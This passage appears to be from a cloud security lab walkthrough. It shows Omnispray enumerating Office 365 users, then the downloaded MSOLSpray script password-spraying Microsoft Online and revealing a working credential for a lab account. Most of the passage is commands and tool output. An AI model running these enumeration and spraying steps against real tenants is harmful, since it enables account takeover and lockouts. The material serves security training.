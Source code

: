 ```powershell
   > module         :  o365_enum_office
   > type           :  enum        
   > userfile       :  users.txt 
   > count          :  1 passwords/spray  
   > lockout        :  15.0 minutes
   > wait           :  5.0               
   > timeout        :  25 seconds
   > pause          :  0.25 seconds
   > rate           :  10 threads
   > start          :  2024-10-26 15:15:52

>---------------------------------------<

[2024-10-26 15:15:52,906] INFO : Generating prerequisite data via office.com...
[2024-10-26 15:16:17,914] INFO : Enumerating 4 users via 'o365_enum_office' module
[2024-10-26 15:16:30,667] INFO : [ + ] yuki.tanaka@megabigtech.com
[ - ] yamamoto.sota@megabigtech.com
[2024-10-26 15:16:32,797] INFO : Results can be found in: '/home/sec-fortress/Az_lab/Omnispray/results/'
[2024-10-26 15:16:32,797] INFO : Valid user accounts: 1

[2024-10-26 15:16:33,049] INFO : /home/sec-fortress/Az_lab/Omnispray/omnispray.py executed in 40.26 seconds.

```

Since we now have a valid set of account we can go ahead and perform a credential stuffing or password spraying attack as this are definitely noisy and risk detection (and locking accounts), and so it's often worth exploring other avenues.

```powershell
PS sec-fortress@Pwn-F0rk-3X3C /home/sec-fortress/Az_lab> wget https://raw.githubusercontent.com/dafthack/MSOLSpray/refs/heads/master/MSOLSpray.ps1


Saving to: ‘MSOLSpray.ps1’MSOLSpray.ps1                                   100%[=====================================================================================================>]   8.52K  32.0KB/s    in 0.3s                                                                                                                                                                                                   2024-10-26 15:25:51 (32.0 KB/s) - ‘MSOLSpray.ps1’ saved [8727/8727]

## Import module with dot sourcing

PS sec-fortress@Pwn-F0rk-3X3C /home/sec-fortress/Az_lab> . .\MSOLSpray.ps1

PS sec-fortress@Pwn-F0rk-3X3C /home/sec-fortress/Az_lab> echo "yuki.tanaka@megabigtech.com" > valid_user

PS sec-fortress@Pwn-F0rk-3X3C /home/sec-fortress/Az_lab> Invoke-MSOLSpray -UserList ./valid_user -Password "MegaDev79$" -Verbose
[*] There are 1 total users to spray.
[*] Now spraying Microsoft Online.
[*] Current date and time: 10/26/2024 15:27:00
VERBOSE: POST with 195-byte payload
VERBOSE: received 3677-byte response of content type application/json
[*] SUCCESS! yuki.tanaka@megabigtech.com : MegaDev79$  
```
